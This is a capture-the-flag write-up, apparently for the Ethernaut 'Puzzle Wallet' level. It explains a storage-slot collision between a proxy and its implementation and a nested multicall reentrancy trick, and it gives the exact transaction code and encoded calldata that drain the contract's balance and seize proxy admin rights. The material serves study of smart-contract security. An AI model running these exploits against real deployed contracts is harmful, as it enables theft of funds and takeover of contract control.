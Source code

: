 # Answer

Goal: Become admin of the wallet proxy.

## 1. Identifying proxy

At first glance it may seem, that the `contract` provided in console is the implementation rather than the proxy, since the ABI does not expose any of the proxy methods:

```javascript
abi: Array(10)
0: {type: 'function', name: 'addToWhitelist', inputs: Array(1), outputs: Array(0), stateMutability: 'nonpayable', …}
1: {type: 'function', name: 'balances', inputs: Array(1), outputs: Array(1), stateMutability: 'view', …}
2: {type: 'function', name: 'deposit', inputs: Array(0), outputs: Array(0), stateMutability: 'payable', …}
3: {type: 'function', name: 'execute', inputs: Array(3), outputs: Array(0), stateMutability: 'payable', …}
4: {type: 'function', name: 'init', inputs: Array(1), outputs: Array(0), stateMutability: 'nonpayable', …}
5: {type: 'function', name: 'maxBalance', inputs: Array(0), outputs: Array(1), stateMutability: 'view', …}
6: {type: 'function', name: 'multicall', inputs: Array(1), outputs: Array(0), stateMutability: 'payable', …}
7: {type: 'function', name: 'owner', inputs: Array(0), outputs: Array(1), stateMutability: 'view', …}
8: {type: 'function', name: 'setMaxBalance', inputs: Array(1), outputs: Array(0), stateMutability: 'nonpayable', …}
9: {type: 'function', name: 'whitelisted', inputs: Array(1), outputs: Array(1), stateMutability: 'view', …}
length: 10
```

But if you try to call `proposeNewAdmin()` on the same address, using a transaction object with encoded selector it will succeed. The task mounted the PuzzleWallet ABI on the proxy address.

## 2. Storage vulnerability

The main mistake of these contracts is that PuzzleProxy storage slots of `pendingAdmin` and `admin` overlap with the implementations `owner` and `maxBalance`. This can be exploited because proxies usually use delegateCall to use implementation functions. In this case PuzzleProxy uses it's own storage, but PuzzleWallet function logic.

As mentioned before our end goal is to become `admin` of the PuzzleProxy and because `admin` overlaps with `maxBalance` our goal will also be reached if we set `maxBalance` to our desired address.

## 3. Become owner of the wallet

Do not confuse `owner` of PuzzleWallet and `admin` of PuzzleProxy, these are different variables. Becoming `owner` will help us gain more access to the functionality of PuzzleWallet. We can do this by calling the mentioned `proposeNewAdmin()`, this works because of the the stroage vulnerability and pendingAdmin and owner share the same slot.

```javascript
await sendTransaction({
  to: contract.address,
  from: player,
  data: 'a6376746000000000000000000000000<player address>', // <- proposeNewAdmin selector with address argument
})
```

## 4. Become whitelisted

After becoming the `owners` we can be easily whitelisted using `addToWhitelist()` function.

```javascript
await contract.addToWhitelist(player)
```

## 5. Empty the contract balance

Before we can call `setMaxBalance` we have to workaround the `require(address(this).balance == 0, "Contract balance is not 0");` guard. Means our next step should be to empty the contracts balance - by default it already has 0.001 ETH. We will only be able to do this once we match our own `balances[player addr]` value with the contracts balance and then call `execute()` to transfer all the ethereum away. We can't just use `deposit()`, because our `balances[player addr]` value will always be 0.001 ETH less than the contract's balance. To work around this `deposit()` limitation we exploit the reentrancy vulnerability created in `multicall()`:

```javascript
await contract.multicall(
  [
    '0xd0e30db0',
    '0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000',
  ],
  { value: '1000000000000000' },
)
```

The first argument `0xd0e30db0` is the `deposit()` selector, but we can't use the same selector for the second call because there is an explicit protection implemented with `bool depositCalled`. Fortunately it is only saved in memory, so if we instead wrappred the `0xd0e30db0` selector in another `multicall` the guard will not trigger. The second argument is roughly an encoded `multicall(['<deposit() selector>'])`. And the value is the same value as current contract balance - 0.001 ETH.

After this call `balances[player addr]` will match contract balance and will equal 0.002 ETH. Since the amounts are exactly equal after we call `execute()` with our entire balance the contract will no longer posses any ethereum:

```javascript
await contract.execute(player, '2000000000000000', [])
```

## 6. Become admin of PuzzleProxy

At this point we have worked around all the security and can become `admin` by setting `maxBalance` to our desired address.

```javascript
await contract.setMaxBalance(player)
```
